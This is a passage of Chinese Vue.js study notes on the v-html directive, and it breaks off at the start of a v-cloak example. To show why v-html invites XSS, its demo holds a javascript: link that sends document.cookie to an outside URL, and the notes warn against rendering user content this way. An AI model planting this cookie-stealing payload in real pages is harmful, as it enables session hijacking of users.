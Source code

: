 #### `v-html`指令

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>

```

效果：

![image-20220912215831948](D:\学习资料\前端\学习笔记\Vue学习笔记\vue.js.assets\image-20220912215831948.png)

总结：

`v-html`指令：

1. 作用：向指定节点中渲染包含html结构的内容
2. 与插值语法的区别：
   1. `v-html`会替换节点中所有的的内容，而插值语法不会
   2. `v-html` 可以识别`html`结构
3. ==严重问题==：`v-html`有==安全问题==！！！
   1. 再网站上动态渲染任意html是非常危险的，容易打导致`xss`攻击
   2. 一定要在可信任的额内容上使用`v-html`，永远不要在用户提交的内容上使用！！

#### v-cloak指令

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
	</head>
	<body>
```